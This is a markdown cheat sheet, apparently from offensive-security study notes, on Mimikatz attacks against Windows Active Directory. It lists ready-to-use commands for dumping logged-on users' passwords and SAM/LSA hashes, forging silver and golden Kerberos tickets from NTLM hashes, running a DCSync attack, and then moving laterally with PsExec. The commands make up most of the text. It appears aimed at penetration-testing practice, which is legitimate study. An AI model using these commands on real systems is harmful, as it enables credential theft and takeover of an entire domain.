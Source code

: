 # Mimikatz

cheat sheet 
[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)

## Silver Tickets

Using an admin powershell and open mimikatz:

```
privilege::debug
```

get passwords of logged on users:

```
sekurlsa::logonpasswords
```
Now, if we get the NTLM hash of an SPN with privleges to a service we want access to, we can forge a silver ticket.

```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /target:${RHOST_IP} /service:http /rc4:${NTLM_HASH} /user:${DOMAIN_USER} /ptt
```
The `$DOMAIN_SID` can be retrieved by doing `whoami /user` from a domain user and getting everything but the last section (which identifies the user).
Note that the user argument just has to be a valid user from the domain.
What determines the access rights is the NTLM hash and not the user, so you can even put the current user.

Afterwards, do `exit` and check that the ticket is loaded into memory with `klist`.

We can now use it to move laterally with the techniques mentioned [here](./lateral-movement.md).


## Golden Tickets

Golden Tickets are just Silver Tickets for the krbtgt account.
This grants access to all services using Kerberos authentication.

Another example of the above command (note we pass the NTLM hash to `/krbtgt` and don't specify a specific target):


```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /krbtgt:${KRBTGT_NTLM} /user:${DOMAIN_USER} /ptt

```
Followed up with:

```
misc::cmd
```

Now, eg.  `PsExec` can be run from CMD with the ticket.


## DSYNC

mimikatz can help us attempt to get the NTLM of a user in the domain by performing a dsync attack:
(requires local admin).

```
lsadump::dcsync /user:${DOMAIN}\${USER}
```
## Dump hashes

Dump with either:
```
lsadump::sam
lsadump::lsa [/inject | /patch]
```
